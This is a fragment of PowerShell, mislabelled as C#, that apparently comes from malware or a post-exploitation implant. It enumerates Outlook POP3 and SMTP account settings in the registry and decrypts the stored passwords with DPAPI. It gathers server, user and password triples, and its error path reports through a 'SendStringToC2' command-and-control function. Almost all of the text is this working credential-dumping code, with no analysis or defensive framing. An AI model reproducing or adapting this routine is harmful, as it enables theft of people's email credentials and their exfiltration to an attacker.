 ```csharp
            try{ $server =  [System.Text.Encoding]::DEFAULT.GetString($smtpServer) -replace "\u0000","" -replace "0x00",""; } catch{}
            if($olInfo[$server] -eq $null) { $olInfo[$server] = @(); }
            $olInfo[$server] += @{ [string]$user = [string]$pwd }
          }
      }
      $pop3Server = ($path | Get-ItemProperty -ErrorAction SilentlyContinue | select -ErrorAction SilentlyContinue -ExpandProperty "POP3 Server");
      if($pop3Server -ne $null) 
      {
          $server = $pop3Server              
          try { $server =  [System.Text.Encoding]::DEFAULT.GetString($pop3Server) -replace "\u0000","" -replace "0x00",""; } catch {}
          $userBytes = ($path | Get-ItemProperty -ErrorAction SilentlyContinue | select -ErrorAction SilentlyContinue -ExpandProperty "POP3 User")
          $user = "";
          if($userBytes -ne $null) 
          {
            $user = $userBytes
            try{ $user = [System.Text.Encoding]::DEFAULT.GetString($userBytes)  -replace "\u0000","" -replace "\x00","";}catch {}
          }
          $encPwd = ($path | Get-ItemProperty -ErrorAction SilentlyContinue | select -ErrorAction SilentlyContinue -ExpandProperty "POP3 Password")
          $pwd = "";
          try 
          {
            $pwd = [System.Text.Encoding]::DEFAULT.GetString([System.Security.Cryptography.ProtectedData]::Unprotect($encPwd[1..$encPwd.Length], $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser))  -replace "\u0000","" -replace "0x00",""
          }
          catch {}
          try 
          {
            $port = [System.Text.Encoding]::DEFAULT.GetString(($path | Get-ItemProperty -ErrorAction SilentlyContinue | select -ErrorAction SilentlyContinue -ExpandProperty "POP3 Port")) -replace "0x00",""
            $server += ":" + $port
          }
          catch {}
          if($olInfo[$server] -eq $null){ $olInfo[$server] = @(); }
          $olInfo[$server] += @{ [string]$user = [string]$pwd  }
          $smtpServer = ($path | Get-ItemProperty -ErrorAction SilentlyContinue | select -ErrorAction SilentlyContinue -ExpandProperty "SMTP Server");
          if($smtpServer -ne $null) 
          {
            $server = $smtpServer;
            try { $server =  [System.Text.Encoding]::DEFAULT.GetString($smtpServer) -replace "\u0000","" -replace "0x00","";}catch {}
            if($olInfo[$server] -eq $null){  $olInfo[$server] = @();  }
            $olInfo[$server] += @{ [string]$user = [string]$pwd  }
          }
      }
    }
    return @{"logs" = "$global:log"; "error" = $olError; "info" = $olInfo}    
  }
  catch { SendStringToC2 "crederror=ERR:ol_dump: $($_.Exception.Message)";}
}
```
